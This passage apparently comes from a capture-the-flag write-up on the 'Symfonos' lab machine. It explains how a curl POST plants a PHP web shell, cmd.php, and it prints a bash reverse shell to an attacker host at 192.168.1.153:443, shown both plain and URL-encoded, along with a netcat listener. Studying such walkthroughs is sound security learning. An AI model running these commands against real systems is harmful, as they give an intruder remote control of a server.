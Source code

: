 We execute the following command to access the victim machine:

![](/assets/post/Symfonos/nc.png)


```bash
cmd=bash -c "bash  -i  >%26 /dev/tcp/192.168.1.153/443 0>%261"
```

**Curl Command for Code Injection**

- A `curl` command is used to send a POST request to an API endpoint (`/post/`) on the server `192.168.1.167` at port `5000`.
- The POST request includes a `token` in the header for authentication.
- The content sent (`text`) contains a Base64-encoded PHP command that creates the `cmd.php` file on the server, which executes any command passed to it through the `cmd` parameter.

**Reverse Shell Injection**

- The URL shown at the top of the browser (`192.168.1.167/post/cmd.php`) demonstrates how the PHP script `cmd.php` is executed with a command:
  `cmd=bash -c "bash -i >& /dev/tcp/192.168.1.153/443 0>&1"`
- This command establishes a reverse connection from the server (`192.168.1.167`) to the attacking machine (`192.168.1.153`) on port `443`.
- The `bash -i` starts an interactive bash session, and `>& /dev/tcp/...` redirects the input and output to create the network connection.

**Netcat Setup to Listen for the Connection**

- In the lower terminal, the command `nc -nlvp 443` is used to listen for incoming connections on port `443`.
- `nc` (netcat) waits for any incoming connection on the specified port.
